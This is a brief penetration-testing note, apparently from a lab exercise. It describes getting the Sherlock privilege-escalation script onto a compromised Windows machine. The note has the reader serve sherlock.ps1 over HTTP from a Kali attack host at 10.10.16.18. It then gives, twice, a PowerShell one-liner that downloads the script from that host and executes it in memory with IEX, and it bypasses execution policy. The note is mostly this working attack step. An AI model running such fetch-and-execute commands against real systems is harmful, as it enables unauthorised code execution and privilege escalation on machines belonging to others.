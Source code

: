 # Scenario
We have a Windows machine.  
We can log on with user access.  
Whenever we run *powershell -ep bypass* -> we get the empty land shell.  
So we need to download sherlock.ps1 from Kali attack machine: 10.10.16.18 and run it on this Windows machine

# Steps to follow
1. Put file sherlock.ps1 into /root/transfer/
2. Start a HTTP server with python3: *python3 -m http.server 80*
3. From victim's machine, run this:
3. *echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.16.18/sherlock.ps1') | powershell -noprofile -
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.16.18/sherlock.ps1') | powershell -noprofile -*

Note: Run this command in a folde where you hae the write permission C:\temp - for example.